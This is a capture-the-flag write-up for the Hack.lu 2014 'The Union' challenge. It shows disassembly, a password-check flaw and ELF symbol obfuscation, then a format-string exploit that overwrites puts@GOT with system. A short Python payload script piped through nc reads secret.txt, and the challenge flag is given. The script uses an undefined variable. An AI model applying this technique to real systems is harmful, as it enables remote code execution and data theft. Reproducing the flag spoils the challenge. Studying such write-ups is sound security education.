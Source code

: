 # Hack.lu CTF 2014: The Union

**Category:** Exploiting
**Points:** 200
**Author:** sqall
**Description:**

> Our biggest competitor the mining corporation, The Union, has a new way of organizing its mining facilities. On the surface, it looks like a mining location archive. But our man inside told us, it has a secret trapdoor that we can use to infiltrate the corporation and steal their secret. We need their secret. They have one success after another and it will not be long until we are finished. Our informant also told us that not everything is what it seems to be. We do not know what this means. Luckily for us, he managed to get us the blueprints of the system. So we should be able to study them before we went for the heist. So, this is your job. Study the blueprints and then go for the valuable `secret.txt`. This is everything we need to overcome them.
>
> Download: [theunion_9edfcf7b247775ab57da993863bfaabd](theunion_9edfcf7b247775ab57da993863bfaabd)
>
> `nc wildwildweb.fluxfingers.net 1423`

## Write-up

When connecting to the server, it greets us with the following prompt:

```
	Welcome to
 _   _                        _             _
| |_| |__   ___   _   _ _ __ (_) ___  _ __ ( )___
| __| '_ \ / _ \ | | | | '_ \| |/ _ \| '_ \|// __|
| |_| | | |  __/ | |_| | | | | | (_) | | | | \__ \
 \__|_| |_|\___|  \__,_|_| |_|_|\___/|_| |_| |___/

			mining archive.

Please give the unions slogan and secret word:
```

By looking at the disassembly of the binary, we figure out that the password is the string `gold>silver`, concatenated with the contents of the file `salt.txt`, which we don’t know.

When playing with the binary locally, we noticed the following oddity: even if we had a trailing newline in the `salt.txt`, we could still get access even though the input password is read without the trailing newline. This caused us to take a closer look at the string comparison part of the code:

```
080489af         mov        dword [ss:esp+0x8], 0xc         # argument 3 ??
080489b7         mov        eax, dword [ss:ebp+var_40]
080489ba         mov        dword [ss:esp+0x4], eax         # argument 2
080489be         lea        eax, dword [ss:ebp+var_21]
080489c1         mov        dword [ss:esp], eax             # argument 1
080489c4         call       strcmp@PLT
080489c9         test       eax, eax
080489cb         jne        0x80488fc
```

At this point we recalled the hint “not everything is what it seems to be” and figured that probably not `strcmp` is called, but `memcmp`, which takes an additional `length` parameter. This means that actually only the first 12 characters of the password are checked, which is only one additional character to what we already know! After two tries we find the correct access code:

```
Please give the unions slogan and secret word:
gold>silverb
Correct slogan.

1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
```

Looking at the xrefs of some of the strings in the binary, we find the ‘trapdoor’:

```
1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
99
Ufff! You found our trapdoor.
Ok here you go. Everything in here is not what it seems to be.
If you do not understand this, you are not quite there yet.
```

That’s not really helpful. The disassembly of the function however is:

```
08049209         mov        ebp, esp
0804920b         sub        esp, 0x18
0804920e         mov        dword [ss:esp], 0x8049b08                           ; "Ufff! You found our trapdoor.", argument #1 for method puts@PLT
08049215         call       puts@PLT
0804921a         mov        eax, dword [ds:stdout]                              ; stdout
0804921f         mov        dword [ss:esp+0x4], eax                             ; argument #2 for method fputs@PLT
08049223         mov        dword [ss:esp], 0x8049b28                           ; "Ok here you go. Everything in here is not what it seems to be.\\n", argument #1 for method fputs@PLT
0804922a         call       fputs@PLT
0804922f         cmp        dword [ss:ebp+arg_0], 0x0
08049233         je         0x8049243

08049235         mov        dword [ss:esp], 0x8049b68                           ; "This is what you should use.", argument #1 for method printf@PLT
0804923c         call       printf@PLT
08049241         jmp        0x804924f

08049243         mov        dword [ss:esp], 0x8049b88                           ; "If you do not understand this, you are not quite there yet.", argument #1 for method puts@PLT, XREF=sub_8049208+43
0804924a         call       puts@PLT

0804924f         mov        eax, dword [ds:stdout]                              ; stdout, XREF=sub_8049208+57
08049254         mov        dword [ss:esp], eax                                 ; argument #1 for method fflush@PLT
08049257         call       fflush@PLT
0804925c         leave
0804925d         ret
```

Two things of interest:

1. `fputs(..., stdout)` is used, although it does the same thing as `puts`, which is used in the same function
2. The call to `printf` is unreachable, so probably some kind of hint.

We suspect that `fputs` and `printf` are also not what they seem. Some digging into the ELF headers confirms this: `DT_STRTAB` points to a string table that contains slightly different function names than the symbol table would have us believe. We note:

* `strcmp` is really `strncmp`
* `printf` is really `system`
* `fputs` is really `printf`

`printf` is never called with user input, but `fputs` is. This leaves us with a format string vulnerability, which can be triggered as follows:

```
1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
1
Please give the location:
%d
Please give the type of the mine:
foo
Please give the profit of the mine:
1
1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
4
Do you want to see the profit?
Location: Dingo canyon
Type: silver
y/n
n
Do you want to see the profit?
Location: Joe's rock
Type: gold
y/n
n
Do you want to see the profit?
Location: Dynamite Bill's boulder
Type: diamond
y/n
n
Do you want to see the profit?
Location: %d
Type: foo
y/n
y
Profit for location:
-143864192             <= this is the output of the printf
foo
1
```

When breaking on `fputs@PLT`, we can inspect the stack layout and we find that the user-controlled string `Type: foo` is conveniently located at stack offset `42`.

From here the exploit is straightforward: We perform two 2-byte writes to overwrite `puts@GOT` (`0x0804b028`) so that it contains the address of `printf@PLT` (`0x080485e0`), which is really `system`. The type of our mine serves both as the pointers for the `%hn` modifiers and as the shell command we want to execute.

This Python script produces output that can be piped right into the server to get the flag:

```
print 'gold>silverb'
print 1
print '%2052d%12$hn%32220d%13$hn'
print loc
print 'sh #BB\x2a\xb0\x04\x08\x28\xb0\x04\x08'
print 1
print 4
print 'n\nn\nn\ny'
print 'cat secret.txt\n' * 100
```

And sure enough:

```bash
$ python input.py | nc wildwildweb.fluxfingers.net 1423
...
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
...
```

The flag is `FLAG{d1aM0nd>G0lD}`.

## Other write-ups and resources

* [ELF obfuscation: how to let analysis tools show incorrect external symbol calls](http://h4des.org/blog/index.php?/archives/346-ELF-obfuscation-let-analysis-tools-show-wrong-external-symbol-calls.html)
